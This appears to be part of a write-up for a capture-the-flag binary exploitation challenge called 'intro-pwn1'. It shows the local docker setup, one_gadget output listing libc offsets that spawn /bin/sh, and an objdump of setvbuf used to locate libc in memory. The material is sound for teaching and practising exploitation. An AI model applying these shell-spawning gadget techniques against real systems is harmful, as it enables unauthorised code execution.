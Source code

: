 
### Recreating the vulnerability

```sh
sudo docker build . -t intro-pwn1
sudo docker run -p 1024:1024 intro-pwn1
sudo docker cp 9639ef6562ff:/lib/x86_64-linux-gnu/libc.so.6 .
one_gadget libc.so.6
```
out
```
0x50a37 posix_spawn(rsp+0x1c, "/bin/sh", 0, rbp, rsp+0x60, environ)  
constraints:  
 rsp & 0xf == 0  
 rcx == NULL  
 rbp == NULL || (u16)[rbp] == NULL  
  
0xebcf1 execve("/bin/sh", r10, [rbp-0x70])  
constraints:  
 address rbp-0x78 is writable  
 [r10] == NULL || r10 == NULL  
 [[rbp-0x70]] == NULL || [rbp-0x70] == NULL  
  
0xebcf5 execve("/bin/sh", r10, rdx)  
constraints:  
 address rbp-0x78 is writable  
 [r10] == NULL || r10 == NULL  
 [rdx] == NULL || rdx == NULL  
  
0xebcf8 execve("/bin/sh", rsi, rdx)  
constraints:  
 address rbp-0x78 is writable  
 [rsi] == NULL || rsi == NULL  
 [rdx] == NULL || rdx == NULL
```

```
objdump -D libc.so.6 | grep setvbuf
```

```
0000000000081670 <_IO_setvbuf@@GLIBC_2.2.5>:  
  81691:       75 5d                   jne    816f0 <_IO_setvbuf@@GLIBC_2.2.5+0x80>  
  816a7:       74 1c                   je     816c5 <_IO_setvbuf@@GLIBC_2.2.5+0x55>  
  816b2:       0f 85 88 01 00 00       jne    81840 <_IO_setvbuf@@GLIBC_2.2.5+0x1d0>  
  816cd:       0f 84 ed 00 00 00       je     817c0 <_IO_setvbuf@@GLIBC_2.2.5+0x150>  
  816d7:       0f 84 cb 00 00 00       je     817a8 <_IO_setvbuf@@GLIBC_2.2.5+0x138>  
  816e0:       74 3e                   je     81720 <_IO_setvbuf@@GLIBC_2.2.5+0xb0>  
  816e8:       e9 81 00 00 00          jmp    8176e <_IO_setvbuf@@GLIBC_2.2.5+0xfe>  
  816f4:       0f 84 c6 00 00 00       je     817c0 <_IO_setvbuf@@GLIBC_2.2.5+0x150>  
  816fe:       0f 84 a4 00 00 00       je     817a8 <_IO_setvbuf@@GLIBC_2.2.5+0x138>  
  81707:       74 17                   je     81720 <_IO_setvbuf@@GLIBC_2.2.5+0xb0>  
  8172b:       0f 84 af 00 00 00       je     817e0 <_IO_setvbuf@@GLIBC_2.2.5+0x170>  
  81752:       0f 86 d8 00 00 00       jbe    81830 <_IO_setvbuf@@GLIBC_2.2.5+0x1c0>  
  81771:       75 9c                   jne    8170f <_IO_setvbuf@@GLIBC_2.2.5+0x9f>  
  81783:       75 8a                   jne    8170f <_IO_setvbuf@@GLIBC_2.2.5+0x9f>  
  81792:       0f 8e 77 ff ff ff       jle    8170f <_IO_setvbuf@@GLIBC_2.2.5+0x9f>  
  8179d:       e9 6d ff ff ff          jmp    8170f <_IO_setvbuf@@GLIBC_2.2.5+0x9f>  
  817b5:       e9 77 ff ff ff          jmp    81731 <_IO_setvbuf@@GLIBC_2.2.5+0xc1>  
  817cb:       0f 85 60 ff ff ff       jne    81731 <_IO_setvbuf@@GLIBC_2.2.5+0xc1>  
  817d4:       eb 98                   jmp    8176e <_IO_setvbuf@@GLIBC_2.2.5+0xfe>  
  817e8:       75 84                   jne    8176e <_IO_setvbuf@@GLIBC_2.2.5+0xfe>  
  8180b:       76 3d                   jbe    8184a <_IO_setvbuf@@GLIBC_2.2.5+0x1da>  
  81817:       0f 88 c5 fe ff ff       js     816e2 <_IO_setvbuf@@GLIBC_2.2.5+0x72>  
  81825:       e9 44 ff ff ff          jmp    8176e <_IO_setvbuf@@GLIBC_2.2.5+0xfe>  
  81835:       e9 1e ff ff ff          jmp    81758 <_IO_setvbuf@@GLIBC_2.2.5+0xe8>  
```